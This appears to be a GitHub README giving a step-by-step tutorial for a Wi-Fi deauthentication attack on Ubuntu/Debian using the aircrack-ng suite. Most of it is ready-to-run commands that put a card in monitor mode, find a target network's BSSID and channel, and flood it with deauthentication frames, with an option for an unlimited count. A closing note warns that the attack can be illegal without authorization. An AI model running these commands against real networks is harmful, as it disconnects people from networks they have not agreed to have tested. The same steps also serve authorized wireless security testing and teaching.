 # Deauthentication Attack using `aircrack-ng` suite on Linux

Here's a basic README for performing a deauthentication attack using `aircrack-ng` suite in Ubuntu/Debian-based system (may be identical on other system):

---

## Prerequisites

- Wireless network card that support monitor mode and packet injection (e.g., Atheros AR9565)
- `aircrack-ng` suite installed, if not
  
  ```bash
  sudo apt install aircrack-ng
  ```

## Steps

1. **Open Terminal**: Press `Ctrl + Alt + T` to open the terminal.

2. **Check Wireless Interface**: Determine the name of your wireless network interface. Use the following command:
   
    ```bash
    iwconfig
    ```
    Identify your wireless interface (e.g., wlan0, wlp3s0).

3. **Put your Wireless Interface in Monitor Mode**: Use `airmon-ng` to put your wireless interface in monitor mode. Replace `wlan0` with your wireless interface name:
   
    ```bash
    sudo airmon-ng start wlan0
    ```
    This command usually rename your interface (e.g., `wlan0mon` `wlp3s0mon`).

4. **Check Monitor Interface**: Verify that the monitor mode has been enabled by running:

   ```bash
   iwconfig
   ```
   You should see your interface listed in monitor mode (e.g., `wlan0mon` `wlp3s0mon`).

5. **Scan for Networks**: Use `airodump-ng` to scan for nearby wireless networks and find the target's BSSID (MAC address) and channel:

   ```bash
   sudo airodump-ng wlan0mon
   ```
   This will scan nearby wireless networks on all channel. Use `Ctrl+C` to stop scanning.

6. **Scan for Target Nerworks**: After knowing which channel the target are, use `--channel` and re-scan. 
   
   ```bash
   sudo airodump-ng wlan0mon --channel 1
   ```
   Replace `1` with your target's channel.

7. **Execute Deauthentication Attack**: Open a new terminal window or tab and execute the deauthentication attack using the following command:

   ```bash
   sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
   ```
   Replace `<BSSID>` with the BSSID of the target network obtained from the previous step.

   `-0` flag specifies the deauthentication attack.
   
   `5` represents the number of deauthentication packets to send. Adjust as needed. `0` means unlimited.

8. **Monitor Activity**: Switch back to the first terminal where `airodump-ng` is running. You should see devices disconnecting and attempting to reconnect to the target network.

9. **Exit Monitor Mode**: Once you've completed the attack, exit monitor mode using:

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
   Replace `wlan0mon` with your monitor interface name if different.

## Notes
- **Caution**: Deauthentication attacks can be illegal if performed without proper authorization. Ensure you have permission before conducting such tests.
- Use responsibly and in controlled environments.
- Be mindful of the laws and regulations related to wireless network security in your area.
